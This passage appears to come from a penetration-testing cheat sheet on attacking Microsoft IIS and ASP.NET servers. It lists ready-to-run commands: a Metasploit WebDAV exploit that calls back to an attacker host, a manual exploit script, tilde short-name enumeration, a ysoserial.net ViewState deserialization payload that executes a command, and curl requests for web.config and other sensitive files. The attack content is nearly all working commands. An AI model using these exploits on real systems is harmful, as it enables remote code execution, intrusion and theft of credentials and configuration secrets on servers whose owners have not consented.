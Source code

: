 **Exploitation**:
```bash
# Metasploit exploitation
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS target_ip
set LHOST attacker_ip
exploit

# Manual exploitation
python3 iis6_webdav_exploit.py target_ip
```

### IIS Short Name Vulnerability
**Objective**: Exploit IIS tilde enumeration vulnerability

**Exploitation**:
```bash
# IIS short name scanner
java -jar IIS_shortname_Scanner.jar 2 20 http://target.com

# Manual enumeration
curl "http://target.com/admin~1.*"
curl "http://target.com/backup~1.*"
curl "http://target.com/config~1.*"
```

### ASP.NET ViewState Exploitation
**Objective**: Exploit insecure ViewState implementations

**ViewState Analysis**:
```bash
# ViewState decoder
python3 viewstate_decoder.py -v "viewstate_value"

# ViewState exploitation
python3 ysoserial.net.exe -f ViewState -g TypeConfuseDelegate -c "cmd /c calc" --path="/page.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="key"
```

### IIS Application Pool Exploitation
**Objective**: Exploit misconfigured application pools

**Application Pool Enumeration**:
```bash
# Application pool discovery
curl http://target.com/aspnet_client/
curl http://target.com/App_Data/
curl http://target.com/bin/

# Configuration file access
curl http://target.com/web.config
curl http://target.com/global.asax
```
